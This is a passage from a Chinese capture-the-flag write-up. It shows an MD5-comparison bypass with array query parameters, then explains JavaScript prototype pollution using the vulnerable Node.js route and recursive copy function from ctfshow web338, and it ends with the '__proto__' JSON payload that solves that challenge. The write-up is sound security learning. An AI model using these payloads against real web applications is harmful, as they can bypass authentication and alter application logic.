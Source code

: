 就是考md5绕过

payload

```
?a[x]=1&b[x]=2
```

##  原型链污染

### 概念介绍

[关于继承和原型链的介绍](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Inheritance_and_the_prototype_chain)

[Nodejs常见的漏洞学习和总结](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html#0x02-javascript)

### ctfshow web338

看源码

```js
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
```

其中copy函数

```js
function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }
```

就是一个典型的`merge类型`

直接上payload

```
{"__proto__":{"ctfshow":"36dboy"}}
```
